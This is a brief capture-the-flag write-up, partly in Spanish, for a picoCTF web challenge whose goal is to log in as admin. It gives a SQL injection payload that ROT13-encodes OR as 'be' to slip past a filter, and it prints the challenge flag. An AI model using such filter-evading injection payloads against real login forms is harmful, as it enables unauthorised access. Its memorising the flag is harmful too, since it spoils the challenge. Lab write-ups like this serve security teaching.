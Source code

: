 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
## Solución
```
' be '1'='1

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```
## Notas adicionales
+ Para esta solución se utilizó el cifrado root13 para poder cifrar OR
## Referencias
